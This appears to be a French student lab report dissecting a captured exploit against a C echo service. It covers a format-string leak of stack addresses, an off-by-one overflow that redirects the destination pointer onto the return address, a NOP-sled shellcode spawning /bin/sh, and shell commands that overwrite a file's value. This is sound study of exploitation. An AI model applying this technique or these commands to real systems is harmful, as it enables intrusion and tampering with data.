 # Report


### Trame pcap de l'échange
```
ECHO %x%x%x%x %x
8049f6713b018 ffc39895
.................................................................q]1.1.1.1.1.1.."......f.....O....1........1.f.p.......9..9.u...<.u...1.1..?..A.?..A.?..1..m..E..E......M..U............/bin/shAAAAAAAAA
...
........
uname
Linux
chmod u+w A9826
echo 1000000 > A9826
chmod u-w A9826
exit
```

### Trame pcap de l'échange désassemblée (dans assembleur.md)

### Vulnérabilité dans le code C
```c
#define BUFFERLENGTH 200

typedef struct safeMessage_t{
  char safeBuffer[BUFFERLENGTH];  		200
  int i;								4
  int len;								4
  char *dst;							4 (taille adresse fait 32 bits, donc 4 duo de 2 hexa).
  char *src;							4 
  int debut;							4
} safeMessage;

int sanitizeBuffer(char *unsafeBuffer, char **reponse, int* fin){
  safeMessage msg;
  int res=0;
  // Fin de chaîne
  int eos=-1;

  msg.len = strlen(unsafeBuffer);
  msg.debut = 0;
  msg.src = unsafeBuffer;
  msg.dst = (char *)&(msg.safeBuffer);
  printf("Vérification d'une entrée de longueur %d\n", msg.len);

  if(msg.len > BUFFERLENGTH){
    return -BUFFERTOOLONG;
  }
  else{
    for(msg.i=0; msg.i<=msg.len; msg.i++){
#ifdef SSP
      printf("src=%p dst=%p &RET=%p RET=%x i=%d len=%d: 0x%.2x\n", msg.src, msg.dst, (&eos+65), *(&eos+65), msg.i, msg.len, (unsigned char)*(msg.src));
#else
      printf("src=%p dst=%p &RET=%p RET=%x i=%d len=%d: 0x%.2x\n", msg.src, msg.dst, (&eos+64), *(&eos+64), msg.i, msg.len, (unsigned char)*(msg.src));
#endif
      if(!isprint(*(msg.src))){
        syslog(LOG_WARNING, "Caractère non imprimable détectée");
        if(eos == -1)
          eos = msg.i;
      }
      *(msg.dst) = *(msg.src);
      msg.src++;
      msg.dst++;
    }
  }
```

La vulnérabilité se trouve dans msg.len > BUFFERLENGTH.  
En envoyant un message de la taille du buffer (=), on va donc entrer dans la boucle qui va écrire les octets du messages envoyés (pointé par msg.src) dans l'adresse de destination pointée par msg.dst. Celle-ci pointe au début sur la structure safeMessage msg décrite plus haut avec en particulier 200 octets pour le safeBuffer et les autres attributs situés à la suite.

Comme une chaine de caractère a toujours le \O à la fin pour indiquer la fin de la chaîne, le 200e octet du message envoyé va être écrit dans l'espace suivant dans la pile qui est i. Ce qui va permettre de continuer d'itérer et d'écrire dans len, puis dans msg.dst.

On écrit d'abord dans l'octet de poid faible donc on va changer les bits de poids faibles de msg.dst.  
En particulier on remarque que les 3 bits de poids forts de msg.dst sont communs avec les 3 bits de poid fort du pointeur sur l'adresse de retour. Donc en changeant l'octet de poid faible avec celui du pointeur sur l'adresse de retour (récupéré précédement), msg.dst = &RET. Et on écrira alors les prochains octets vers cette adresse, et remplacera donc l'adresse de retour.

(RQ: les 3 bits de poid forts ne sont pas les même au début mais le deviennent après 200 octets qui à force d'incrémenter ont rajouté une retenue).

(Petite précision, on change l'octet poid faible par ceux de &RET - 1  car après avoir copié on incrémente msg.src et msg.dst dans le code source pour écrire à l'octet d'après). Donc si &RET = XX XX XX 5c, on écrira 5b qui s'incémentera en 5c.)

L'adresse de retour pointe sur la prochaine instruction à exécuter à la fin de l'exécution de la fonction (quand on aura dépiler les variables locales et arguments lors de l'appel de cette fonction). On remplace l'adresse de retour par l'adresse au début de notre message (récupéré auparavant) pour que la prochaine instruction exécutée soit la première de notre message et exécute ensuite notre code malicieux.  
(Rq: On a de la marche car les premières instructions est un toboggan de nop donc on peut mettre une addresse qui tombera sur un des nopes.)

ATTENTION: bien comprendre pointeur sur l'adresse de retour et adresse de retour. Le pointeur sur l'adresse de retour est le pointeur qui indique à quelle adresse est écrite l'adresse de retour. L'adresse de retour est un pointeur vers l'adresse de la prochaine instruction à exécuter après la fonction.


### ECHO %x%x%x%x %x

Un echo doit renvoie ce qu'on lui a envoyé.  
Il y a un pb avec le sprintf qui devrait lors d'un %x écrire la variable au format %x associée mais il n'ya a pas de variable liée.  
(Comment?) Ca va renvoyer l'adresse du pointeur msg.dst à l'endroit du 1er % de "ECHO %x%x%x%x %x". Et c'est le pointeur où on écrit notre message.  
A chaque nouveau message le msg.dst recommence à partir de la même adresse, donc de cette manière on connait toujours l'adresse où on commence à écrire notre message. Qui est donc réponse - 5. 
On remarque de même que il y a toujours le même écart 0xF7 entre cette adresse retournée et &RET qui est l'adresse où se trouve l'adresse de retour. On arrive alors à déterminer l'adresse &RET de retour.

![img](./assets/echo.png)

````
&RET = FF C9 2F 2C
réponse = FF C9 2E 35 (ECHO )
&(début message envoyé) = réponse - 5 = FF C9 2E 30

&RET - réponse = F7
Donc &RET = réponse + F7 (+F6 car sera incrémenté +1 après dans le code)

